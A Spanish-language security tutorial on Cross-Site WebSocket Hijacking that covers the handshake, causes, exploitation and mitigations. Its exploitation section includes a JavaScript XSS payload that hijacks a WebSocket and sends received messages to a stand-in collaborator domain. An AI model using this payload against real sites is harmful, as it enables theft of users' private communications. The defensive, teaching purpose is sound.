

## Cross Site WebSocket Hijacking

## Introducción
Para entender esta vulnerabilidad, primero hay que tener claro que es un *WebSocket*, este es un protocolo que opera en la capa TCP, su objetivo es comunicar dos redes (sockets) de forma controlada de una forma bidireccional. 
Este protocolo se usa por ejemplo en la mensajería instantánea.
Mientras que en una petición HTTP la comunicación va en el formato mensaje-respuesta:


En una comunicación *WebSocket* , se hace un **WebSocket Protocol Handshake**, en el que el Cliente envía una solicitud HTTP al servidor para actualizar la comunicación actual a una de tipo *WebSocket*.
```http
GET /chat HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade 
Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==
Sec-WebSocket-Version: 13
Origin: http://example.com

```

- **Upgrade**: Indica que el cliente desea cambiar de HTTP a WebSocket.
- **Connection**: Debe incluir el valor "Upgrade" para señalar que la conexión se va a cambiar.
- **Sec-WebSocket-Key**: Una clave Base64 generada por el cliente, que el servidor usará para crear una respuesta de aceptación.
- **Sec-WebSocket-Version**: Indica la versión del protocolo WebSocket que el cliente puede entender. La versión más común es la 13.

Si el servidor soporta el protocolo WebSocket y acepta la solicitud de cambio de protocolo, responderá con un código de estado HTTP 101 Switching Protocols. La respuesta incluirá:
```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: HSmrc0sMlYUkAGmm5OPpG2HaGWk=

```

- **Upgrade**: Confirma que se realizará un cambio a WebSocket.
- **Connection**: Debe contener el valor "Upgrade".
- **Sec-WebSocket-Accept**: Este es un campo clave. El servidor crea este valor combinando la `Sec-WebSocket-Key` enviada por el cliente con una cadena específica definida por el protocolo ("258EAFA5-E914-47DA-95CA-C5AB0DC85B11"), aplicando SHA-1 a esta cadena combinada, y luego codificando el resultado con Base64. Esto sirve como prueba de que el servidor entiende la solicitud WebSocket.

A partir de ahora la comunicación será en tiempo real:


Como define [Ionos](https://www.ionos.es/digitalguide/paginas-web/desarrollo-web/que-es-websocket/), WebSocket puede entenderse como un canal de comunicación abierto, en el cual queda abierta una conexión activa tras el handshake inicial entre el cliente y el servidor. Así, el servidor también puede enviar información nueva al cliente sin que este tenga que solicitarlo previamente cada vez.

Una vez que entendemos como funciona el protocolo, ¿ en que se basa **CSWSH** ?
Esta vulnerabilidad se basa en falsificar un *WebSocket Handshake* (si esta se basa únicamente en cookies HTTP, sin protección CSRF ) para que el atacante consiga introducirse en mitad del canal de comunicación, de esta forma puede leer y enviar mensajes como un usuario legitimo.



## Causas Comunes

Las causas comunes del ataque de Cross-Site WebSocket Hijacking (CSWSH) se centran en la forma en que las aplicaciones web manejan las conexiones WebSocket y cómo se implementan las medidas de seguridad en torno a ellas. Algunas de las principales causas incluyen:

1. **Falta de Autenticación y Autorización Estricta**: Si una aplicación no verifica adecuadamente si una solicitud de WebSocket proviene de un usuario autenticado o no realiza una comprobación de autorización para cada solicitud, un atacante podría aprovechar este descuido para interceptar o manipular la comunicación WebSocket.

2. **Política de Mismo Origen (Same-Origin Policy) Incompleta para WebSockets**: A diferencia de las solicitudes HTTP tradicionales, las conexiones WebSocket no están completamente sujetas a la política de mismo origen. Esto significa que un script malicioso podría establecer una conexión WebSocket con un servidor desde un dominio diferente, lo que podría facilitar un ataque de hijacking si el servidor no verifica el origen de la conexión de manera efectiva.

3. **Configuración Incorrecta de Cookies y Sesiones**: Si las cookies de sesión se configuran sin el atributo `SameSite` (para no incluir la cookie de un sitio en solicitudes a otros sitios web distintos) o con un `SameSite` permisivo, un sitio malicioso podría realizar solicitudes a otro sitio en el contexto de la sesión del usuario, potencialmente permitiendo un ataque de hijacking a través de WebSockets.

4. **Implementaciones de Cliente y Servidor Inseguras**: Las bibliotecas o frameworks que no siguen las mejores prácticas de seguridad en la implementación de conexiones WebSocket pueden dejar a las aplicaciones vulnerables a ataques. Esto incluye la falta de encriptación (usando WS (comunicación sin cifrar) en lugar de WSS (comunicación cifrada)) o la implementación incorrecta de la lógica de autenticación y autorización.

5. **Inyección de Scripts Cross-Site (XSS)**: Si una aplicación es vulnerable a XSS, un atacante podría inyectar un script malicioso que establezca conexiones WebSocket no autorizadas. Esto podría permitir al atacante realizar acciones en nombre del usuario sin su conocimiento.


## Pasos de explotación

Como ya hemos comentado, el protocolo *WebSocket*, no viene limitado por la política CORS, lo cual permite que una web infectada , o un XSS pueda hacer un *WebSocket Handshake*, que al hacerse por vía HTTP, incluirá la cookie de la victima, haciendo que el servidor valide la conexión.
Esto hará que el atacante pueda hacerse pasar por un usuario legítimo de la comunicación, podrá tanto leer como enviar mensajes.

#### Escenario Hipotético

Imagina que tienes una aplicación de chat en tiempo real que utiliza WebSockets para comunicación bidireccional entre el cliente y el servidor. La aplicación permite a los usuarios enviar mensajes a otros usuarios en tiempo real. Sin embargo, la aplicación no verifica adecuadamente el origen de las conexiones WebSocket ni restringe las acciones basadas en sesiones autenticadas específicamente para esas conexiones.
Supongamos que tampoco se valida bien el campo de mensajes y nos encontramos con una [XSS](../XSS/), un atacante podría inyectar un código asi:
```JavaScript
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); 
}
function handleReply(event) {
//Obtenemos los datos robados
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```

El mensaje *READY* es una especie de convención, pero este mensaje es diferente para cada servidor *WebSocket*, para ver que mensaje enviar, puedes usar BurpSuite para interceptar la comunicación y ver que mensajes se envían.
Si la aplicación de chat no verifica correctamente el origen de la solicitud ni valida que la solicitud de WebSocket se basa en una sesión autenticada válida específicamente para esa conexión, el navegador del usuario establecerá la conexión WebSocket como si fuera una solicitud legítima.
En este caso el usuario que envía el ataque forma parte de la comunicación legítima, lo que obtendrá son datos de la otra parte de la comunicación.

Si este script lo ejecutase una página web maliciosa (sin tener que haber un XSS de por medio), un tercero se metería en la comunicación, comprometiendo datos sensibles de ambas partes.


## Implicaciones

Como ya hemos comentado, las implicaciones varían dependiendo de la aplicación y el servidor que gestione el protocolo, se puede derivar a ataques como CSRF, XSS, Exfiltración de datos...


## Mitigación

Para protegerse contra el Cross-Site WebSocket Hijacking, los desarrolladores y administradores de sitios web pueden implementar varias estrategias:

- **Autenticación en el Nivel de WebSocket**: Realizar una autenticación adicional después de establecer la conexión WebSocket para verificar que el usuario y la sesión son legítimos. Esto puede incluir el uso de tokens (CSRF) de autenticación que el servidor valida antes de permitir cualquier operación a través del WebSocket.

- **Orígenes de Confianza**: Restringir las conexiones WebSocket solo a orígenes de confianza. Esto se puede lograr mediante la validación del campo `Origin` en los encabezados de solicitud de WebSocket para asegurarse de que solo se acepten conexiones de orígenes permitidos.

- **Políticas de Seguridad del Contenido (CSP)**: Implementar políticas CSP estrictas que restrinjan la ejecución de scripts solo a fuentes confiables, lo que puede ayudar a prevenir la inyección de scripts maliciosos en primer lugar.